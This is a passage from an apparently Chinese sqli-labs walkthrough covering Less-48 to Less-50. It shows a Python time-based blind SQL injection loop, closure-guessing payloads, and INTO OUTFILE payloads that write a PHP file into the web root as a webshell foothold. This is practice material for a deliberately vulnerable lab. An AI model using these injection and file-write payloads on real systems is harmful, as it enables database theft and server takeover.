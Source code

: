 ```python
        # sort = "if((substr((select group_concat(column_name) from information_schema.columns where table_schema=database())," + str(i)+",1)='"+ s +"'),sleep(0.1),0)%23"
        tmp_url = url + "?sort=" + sort
        start = time.time()
        resp = requests.get(tmp_url)
        end = time.time()
        if end - start > 0.1:
            flag += s
            # 当盲注出正确字符时，才去盲注下一位(变量i的作用)
            i += 1
            print(f"[#]------result: {flag}")
            break
        elif end - start > 2:
            print("跑了这么久，跑完了吗？跑完我给你停了🤓👍")
            exit()
        else:
            pass
```

![98](/medias/sqli-labs/98.png)


写个马子

```sql
?sort=1 into outfile '/var/www/html/Less-48/1.php' lines terminated by 0x3c3f3d706870696e666f28293b3f3e%23
```



## Less-49

时间盲注猜闭合方式

```sql
?sort=0' or if(1=1,sleep(5),sleep(5))%23
```


![99](/medias/sqli-labs/99.png)

猜出后台闭合方式可以直接改脚本了，或者写个马子进去


```sql
?sort=0' into outfile '/var/www/html/Less-49/1.php' lines terminated by 0x3c3f3d706870696e666f28293b3f3e%23
```

![100](/medias/sqli-labs/100.png)


## Less-50

时间盲注猜出后台是，整数型
